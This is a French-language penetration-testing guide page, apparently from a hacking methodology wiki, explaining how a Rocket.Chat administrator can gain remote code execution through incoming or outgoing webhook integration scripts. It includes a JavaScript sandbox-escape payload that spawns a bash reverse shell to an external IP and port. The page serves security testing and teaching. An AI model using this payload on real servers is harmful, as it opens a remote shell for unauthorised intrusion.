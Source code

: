 ## RCE

Si vous êtes administrateur dans Rocket Chat, vous pouvez obtenir une RCE.

* Allez dans **`Intégrations`** et sélectionnez **`Nouvelle intégration`** et choisissez n'importe laquelle : **`Incoming WebHook`** ou **`Outgoing WebHook`**.
  * `/admin/integrations/incoming`

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

* Selon la [documentation](https://docs.rocket.chat/guides/administration/admin-panel/integrations), les deux utilisent ES2015 / ECMAScript 6 ([essentiellement JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) pour traiter les données. Alors, obtenons un [shell inversé pour javascript](../../generic-methodologies-and-resources/shells/linux.md#nodejs) comme suit :
```javascript
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
* Configurez le WebHook (le canal et le nom d'utilisateur du message doivent exister) :

<figure><img src="../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>

* Configurez le script WebHook :

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Enregistrez les modifications
* Obtenez l'URL WebHook générée :

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Appelez-le avec curl et vous devriez recevoir le shell inversé
